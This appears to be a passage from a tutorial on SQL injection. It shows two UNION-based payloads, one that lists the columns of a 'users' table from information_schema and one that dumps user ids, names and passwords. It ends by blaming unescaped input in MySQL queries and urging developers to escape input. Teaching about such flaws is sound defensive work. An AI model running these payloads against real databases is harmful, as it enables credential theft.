

```php
/* 
getting all columns inside table
*/

SELECT ? FROM ? WHERE ? like = '%' UNION (SELECT column_name FROM information_schema.columns WHERE table_name="users")--   %';
```



```php
/*
we knew table is users and columns are id,user_name,user_password 
now lets get all the user names and passwords
*/

SELECT ? FROM ? WHERE ? like = '%' UNION SELECT CONCAT(id," ",user_name," ",user_password) FROM users--   %';
```


<hr>

so what was the bug in the code lead to this catastrophic exploit
the bug pretty simple and many developers forget to fix it
he pluged the input into mysql query without escaping string or any other defense mechanisms




a simple fix is like this 




        so please be careful when you are plugging any input to mysql query, 
        its enough to forget escaping input only once and attacker can reach all your databases.